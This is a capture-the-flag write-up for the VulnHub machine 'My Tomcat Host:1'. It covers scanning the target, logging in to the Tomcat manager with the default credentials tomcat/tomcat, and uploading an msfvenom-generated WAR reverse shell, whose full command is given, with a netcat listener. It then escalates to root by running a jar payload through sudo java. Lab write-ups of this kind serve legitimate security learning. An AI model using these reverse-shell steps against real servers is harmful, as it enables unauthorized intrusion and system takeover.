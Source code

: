 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)

we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

**-Pn** - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 2 ports are open:

*port 22* - ssh OpenSSH.

*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/

we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)

if we try to enter the Manager App we get an authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)

after searching the default username and password of tomcat version 9/8 on google this worked:

username: tomcat

password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)

now from the manager page we can uplaod new service applications to the server.

lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first let's create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

**command explain:**

**msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war**

**msfvenom** - rapid7 (creators of metasploit tool) tool for payload generation.

**-p** - payload to use.

**LHOST** - attacker ip address.

**LPORT** - attacker ip port.

**-f** - output format.
generating payload into shell.war file.

**nc -lvp 1234**

**nc** - netcat, tcp and udp tool for connections and listens.

**-l** - listen for connections.

**-v** - verbose output.

**-p** - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/

we got a shell!

let's get a normal shell using python pty:

![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)

we can run java as root!

lets use the same method we got the reverse shell to get a root access but this time we create a jar file.

we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:

**on the attacker machine:**
![reverse-shell-send](images/MyTomcatHost-1/create-shell-send.png)

**on the target machine:**

![wget-revershell](images/MyTomcatHost-1/wget.png)

**fire up metasploit and set up the exploit:**
![msf](images/MyTomcatHost-1/msf.png)

**run the jar file in th target machine:**

![run-jar](images/MyTomcatHost-1/run-jar.png)

**and we got root access!!**

![root](images/MyTomcatHost-1/root.png)
